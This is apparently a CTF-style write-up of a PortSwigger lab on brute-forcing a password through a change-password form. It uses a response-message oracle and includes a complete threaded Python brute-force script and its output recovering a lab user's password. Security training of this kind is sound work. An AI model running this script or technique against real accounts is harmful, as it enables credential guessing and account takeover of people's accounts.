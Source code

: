 # Password brute-force via password change

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change), you'll learn: Password brute-force via password change! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's password change functionality makes it vulnerable to brute-force attacks. To solve the lab, use the list of candidate passwords to brute-force Carlos's account and access his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222061644.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222061657.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222061706.png)

In here, we can change user's password.

**Let's try to update our password and intercept the request via Burp Suite:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222061804.png)

When we clicked the `Change password` button, it'll send a POST request to `/my-account/change-password`, with parameter **`username`, `current-password`**, `new-password-1`, and `new-password-2`.

Let's drop that request and test one thing.

**What if I entered an incorrect current password?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222062402.png)

If the current password is incorrect, it'll redirect me to `/login`.

Also, the change password function has a parameter called `username`.

**What if I change that parameter to `carlos`?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222062541.png)

Still the same.

**Now, what if the current password and confirm new password are incorrect?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222063542.png)

It displays `Current password is incorrect`.

**Then what if the current password is correct, and confirm new password is incorrect?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222063736.png)

It displays `New passwords do not match`.

**Armed with above information, we can brute force `carlos`'s password via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password):
    loginData = {
        'username': 'carlos',
        'current-password': password,
        'new-password-1': 'fakepassword',
        'new-password-2': 'fakefakepassword'
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'New passwords do not match' in loginRequestText:
        print(f'[+] Found password: {password}')

def main():
    url = 'https://0abf002404a8267cc24aa2710069002f.web-security-academy.net/my-account/change-password'
    cookie = {
        'session': 'vGQDEH6spu3GS37ZaaFrD05G1hdB1Vo1',
        'session': 'MTTOtDOjdJHZRfxAtEgbVh7LiiSnLcqJ'
    }

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    for password in listPassword:
        thread = Thread(target=sendRequest, args=(url, cookie, password))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_changepassword.py
[+] Found password: monkey
```

- Found `carlos`'s password: `monkey`

Let's login as user `carlos`!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222064447.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222064455.png)

I'm user `carlos`!

# What we've learned:

1. Password brute-force via password change